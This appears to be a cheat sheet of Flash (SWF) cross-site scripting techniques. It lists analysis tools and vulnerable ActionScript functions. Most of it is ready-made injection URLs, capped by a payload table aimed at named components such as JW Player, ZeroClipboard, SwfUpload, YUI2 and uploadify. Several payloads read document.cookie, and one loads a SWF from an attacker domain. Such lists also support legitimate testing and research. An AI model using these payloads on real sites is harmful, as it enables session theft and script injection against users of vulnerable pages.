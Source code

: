 ```yaml
---
title: Flash files Vulnerable Payload
date: 2016-06-17 11:27:37
tags: Flash
---
```


#### [SWFIntruder](https://github.com/irsdl/updated-SWFIntruder)
https://gist.github.com/cure53/df34ea68c26441f3ae98f821ba1feb9c#intro

#### Flashbang
```
> git clone https://github.com/cure53/Flashbang --recursive
> cd Flashbang/shumway
> git submodule init
> make bootstrap
> python -m SimpleHTTPServer 80     # 在Flashbang目录下启动一个Web服务,访问http://127.0.0.1/src/flashbang.html
```
#### FFDec

[FFDec](https://github.com/jindrapetrik/jpexs-decompiler/releases)

#### Vul function
##### 1) URLRequest --> getURL
```
// as3.0 version
navigateToURL(new URLRequest(link), "_self");
//as2.0 version
getURL(link,"_self");
```
> example

```
http://www.target.com/movie.swf?link=javascript:alert(1)
```
```
var root_xml:XML = new XML();
root_xml.ignoreWhite = true;
root_xml.onLoad = function(success){
    if(success){
        getURL(root_xml.childNodes[0].childNodes[0].childNodes[0].nodeValue)
    }else{
        getURL("javascript:alert(‘fail’)")
    }
}
root_xml.load(_root.url);
```
```
<?xml version="1.0" encoding="utf-8" ?>
<data>
    <link>javascript:alert('xss')</link>
</data>
```

##### 2) ExternalInterface.call
```
try { __Flash__toXML(函数名("参数1")) ; } catch (e) { "<undefined/>"; }
```
> example

```
http://www.target.com/ExternalInterface_first.swf?func=a1lert(1))}catch(e){alert(100)}//

Output

try { __Flash__toXML(a1lert(1))}catch(e){alert(100)}// ("参数1")) ; } catch (e) { "<undefined/>"; }

http://www.target.com/ExternalInterface_second.swf?par=1111\%22),al)}catch(e){alert(1000)}//

Output

try { __Flash__toXML(alert("1111\\"),al}catch(e){alert(1000)}
```
#### 3) htmlText
```
_root.createTextField("Inputbox",0,20,20,320,240);
_root.Inputbox.html=true;
_root.Inputbox.htmlText="Welcome" + _root.username;
```
> example

```
http://www.target.com/htmltext.swf?url=?username=<img src='javascript:alert("XSS")'>

Output

"Welcome <img src='javascript:alert(XSS)'>"
```
#### 4) loadMovie(), asfunction()
```
_root.loadMovie(_root.movietoload)
```
```
http://www.target.com/FlashApp.swf?movietoload=http://hackerdomain/hackedFlash.swf
```
#### 5) ExternalInterface.addCallback()
```
ExternalInterface.addCallback('throwException',
     function(s) {
       throw new Error(s)
     }
);
```


#### Payload


Vendor  |   url
---|---
Zeroclipboard | /zeroclipboard.swf?id=\"))}catch(e){alert(1);}//&width=500&height=500&.swf
JW Player	|	/player.swf?playerready=alert(document.cookie)
JW Player	|	/player.swf?tracecall=alert(document.cookie)
Custom	|	/banner.swf?clickTAG=javascript:alert(1);//
SwfUpload v2.2.0.1	|	/swfupload.swf?movieName="]);}catch(e){}if(!self.a)self.a=!alert(1);//
YUI2	|	/io.swf?yid=\"));}catch(e){alert(1);}//
Jplayer     |   /Jplayer.swf?jQuery=confirm&id=Your information.')*confirm(document.cookie%2b'&vol=0.8&muted=false&.swf
player  |   /player.swf?playerID=a\%22%29%29}catch%28e%29{alert%28document.domain%29}//
uploader    |   /uploader.swf?allowedDomain=\%22}%29%29%29}catch%28e%29{alert%28document.domain%29;}//
tagcloud    |   /tagcloud.swf?mode=tags&tagcloud=%3Ctags%3E%3Ca+href='http://websecurity.com.ua'+style='font-size:+40pt'%3EClick%20me%3C/a%3E%3C/tags%3E
open-flash-chart    |   /open-flash-chart.swf?get-data=(function(){alert(/hello/)})()
io      |   /io.swf?yid=\"));}catch(e){alert(9)}//
uploadify   |   /uploadify.swf?buttonText=%3Ca%20href=%27javascript:alert%289%29%27鈥�%3ETest%3C/a%3E
downloadify |    /downloadify.swf?queue_name=%22))}catch(e){}if(!self.a)self.a=!alert('XSS');//&width&height&downloadImage=http://www.google.co.in/images/srpr/logo4w.png
flvPlayer   |   /flvPlayer.swf?flvToPlay=xss.xml
aflax   |   /aflax.swf?callback=alert(9)
redirect    |   /redirect.swf?url=javascript:alert(9);
finnor  |   /finnor.swf?clickTag=javascript:alert(1);
Vulnerable  |   /vulnerable.swf?htmlVar=%3Ca%20href%3D%22asfunction%3AgetURL%2Cjavascript%3Aalert%28%27gotcha%21%27%29%22%3E%20Click%20here%3C%2fa%3E
Pie3D   |   /Pie3D.swf?dataURL=xss.xml
link_protocol_test [only firefox] |   /link_protocol_test.swf?input=data%3Atext%2fhtml%3Btext%2C%3Cscript%3Ealert%28document.domain%29%3B%3C%2fscript%3E%2f%2f
flashmediaelement < v2.21.1  |   /flashmediaelement.swf?jsinitfunctio%gn=alert`1`



